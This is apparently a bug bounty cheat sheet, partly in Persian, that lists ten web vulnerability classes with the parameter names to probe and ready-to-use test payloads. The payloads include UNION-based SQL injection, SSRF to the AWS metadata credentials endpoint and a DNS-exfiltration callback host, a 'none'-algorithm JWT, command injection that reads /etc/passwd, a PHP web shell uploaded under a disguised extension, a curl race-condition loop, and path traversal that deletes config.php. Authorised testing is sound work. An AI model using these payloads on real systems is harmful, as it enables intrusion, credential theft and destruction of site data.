 🚀 P1 Bug Bounty Cheat Sheet (2025)
1. 🔑 IDOR (Insecure Direct Object Reference)

پارامترهای حساس:

user_id, account_id, profile_id, order_id, invoice_id, doc_id, uid


Payload تست:

GET /api/user/profile?user_id=12345   # کاربر A
GET /api/user/profile?user_id=12346   # دسترسی غیرمجاز به کاربر B

2. 🔒 Broken Access Control (BAC - فنی)

پارامترهای حساس:

role, isAdmin, permission, access_level, group


Payload تست:

POST /api/updateRole
{"user":"12345","role":"admin"}   # ارتقاء نقش غیرمجاز

3. 💉 SQL Injection (Error Based)

پارامترهای حساس:

id, query, search, sort, filter, report_id


Payload تست:

?id=1'   -- Error Based
?id=1' ORDER BY 5-- 
?id=1' UNION SELECT null,null,version()-- 

4. 🌐 SSRF (Server-Side Request Forgery)

پارامترهای حساس:

url, link, target, callback, feed, redirect, endpoint, webhook


Payload تست:

url=http://127.0.0.1:22        # تست پورت داخلی
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/  # AWS metadata
url=http://burpcollaborator.net/abc   # DNS exfil

5. 🛑 Authentication Bypass (فنی)

پارامترهای حساس:

auth, token, session_id, jwt, sso, bearer


Payload تست:

Authorization: Bearer null
Authorization: Bearer '' 
Cookie: session_id=123 OR 1=1
jwt={"alg":"none","kid":"1","payload":{"role":"admin"}}

6. 💣 RCE (Remote Code Execution)

پارامترهای حساس:

cmd, exec, shell, process, run


Payload تست:

cmd=ls -la; id
exec=whoami && cat /etc/passwd

7. 🐚 Shell Upload (نوعی RCE)

پارامترهای حساس:

file, upload, avatar, media, image


Payload تست (PHP Shell):

<?php system($_GET['cmd']); ?>


آپلود با نام: shell.php.jpg

دسترسی: http://site.com/uploads/shell.php?cmd=id

8. 📤 Unrestricted File Upload

پارامترهای حساس:

upload, file, attachment, document


Payload تست:

آپلود .htaccess برای اجرای PHP

آپلود فایل evil.svg با JavaScript درون SVG

9. ⚡ Race Condition

پارامترهای حساس:

coupon, promo, balance, transfer, withdraw


Payload تست:

# استفاده همزمان از یک کوپن تخفیف
for i in {1..50}; do curl -X POST https://target.com/redeem?coupon=FREE100 & done

10. 📂 Path Traversal / Arbitrary File Deletion

پارامترهای حساس:

file, path, dir, delete, remove, download


Payload تست:

download=../../../../etc/passwd
delete=../../../../var/www/html/config.php

✅ Quick Notes

ابزار پیشنهادی برای پیدا کردن این پارامترها: Burp ParamMiner, Arjun, NarrowX

اول روی Token / IDOR / File / Redirect / SSRF تمرکز کن (بیشترین P1 Report ها در ۲۰۲۵)

برای اثبات، همیشه PoC کوتاه + اسکرین‌شات + هدر/ریسپانس بذار
